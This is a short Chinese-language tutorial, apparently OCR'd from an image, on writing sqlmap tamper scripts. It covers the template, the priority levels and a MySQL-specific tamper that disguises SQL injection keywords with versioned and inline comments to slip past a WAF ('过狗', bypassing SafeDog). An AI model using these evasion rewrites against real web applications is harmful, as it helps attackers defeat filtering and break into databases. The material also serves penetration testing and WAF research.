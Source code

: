 **tamper固定模板如下：**

```
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW 

def dependencies(): 
     pass

def tamper(payload, **kwargs): 
      pass
```

**PROIORITY**

用于定义tamper优先级，当调用多个tamper时生效，优先级如下，数值越大优先级越高

-   LOWEST = -100
-   LOWER = -50
-   LOW = -10
-   NORMAL = 0
-   HIGH = 10
-   HIGHER = 50
-   HIGHEST = 100

**dependencies**

用于提示用户tamper适用范围，具体代码如下：

```
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
import os

__priority__ = PRIORITY.LOW

def dependencies():
    singleTimeWarnMessage("过狗tamper '%s' 只针对 %s" % (os.path.basename(__file__).split(".")[0], DBMS.MYSQL))
```

`DBMS.MYSQL`代表MYSQL，其他数据库类推

**Tamper**

tamper关键函数，用于定义过滤规则，示例代码如下：

```
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    payload=payload.replace('AND','/*!29440AND*/')
    payload=payload.replace('ORDER','/*!29440order*/')
    payload=payload.replace('LIKE USER()','like (user/**/())')
    payload=payload.replace('DATABASE()','database/*!29440*/()')
    payload=payload.replace('CURRENT_USER()','CURRENT_USER/**/()')
    payload=payload.replace('SESSION_USER()','SESSION_USER(%0a)')
    payload=payload.replace('UNION ALL SELECT','union/*!29440select*/')
    payload=payload.replace('super_priv','/*!29440/**/super_priv*/')
    payload=payload.replace('and host=','/*!29440and*/host/*!11440=*/')
    payload=payload.replace('BENCHMARK(','BENCHMARK/*!29440*/(')
    payload=payload.replace('SLEEP(','sleep/**/(')
    return payload
```
